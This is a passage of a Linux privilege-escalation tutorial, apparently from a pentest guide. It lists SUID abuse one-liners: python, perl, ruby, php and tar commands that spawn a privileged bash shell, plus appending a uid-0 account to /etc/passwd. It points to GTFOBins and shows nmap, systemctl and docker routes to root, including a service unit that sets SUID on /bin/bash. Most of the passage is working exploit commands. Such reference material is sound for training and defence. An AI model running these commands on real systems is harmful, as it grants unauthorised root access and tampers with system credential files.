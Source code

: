 ```bash
# 5. python with SUID
python -c 'import os; os.execl("/bin/bash", "bash", "-p")'
python3 -c 'import os; os.execl("/bin/bash", "bash", "-p")'

# 6. perl with SUID
perl -e 'exec "/bin/bash";'

# 7. ruby with SUID
ruby -e 'exec "/bin/bash"'

# 8. php with SUID
php -r "exec('/bin/bash');"

# 9. cp command with SUID (file overwrite)
cp /etc/passwd /tmp/passwd.bak
echo 'root2:$6$salt$hash:0:0:root:/root:/bin/bash' >> /etc/passwd
# Add new root user

# 10. tar with SUID
tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash

# Why SUID exploitation works:
# - SUID programs inherit owner privileges
# - Many programs have legitimate SUID need
# - Developers often overlook security implications
# - System administrators set SUID unnecessarily
```

#### **GTFOBins for SUID Exploitation**

**What GTFOBins is:** Comprehensive database of Unix binaries that can be exploited for privilege escalation, including SUID exploitation techniques.

```bash
# GTFOBins methodology for SUID binaries:
# 1. Identify SUID binary: find / -perm -4000 -type f 2>/dev/null
# 2. Check GTFOBins: https://gtfobins.github.io/
# 3. Look for SUID section for specific binary
# 4. Execute appropriate command

# Example GTFOBins SUID exploits:

# nmap (older versions)
nmap --interactive
# Inside nmap:
!sh

# systemctl with SUID
echo '[Service]
Type=oneshot
ExecStart=/bin/bash -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > /tmp/privesc.service
systemctl link /tmp/privesc.service
systemctl enable --now /tmp/privesc.service

# docker with SUID
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# Mounts host filesystem and provides root shell

# Why GTFOBins is essential:
# - Comprehensive database of exploitation techniques
# - Regularly updated with new vectors
# - Provides specific commands for different scenarios
```
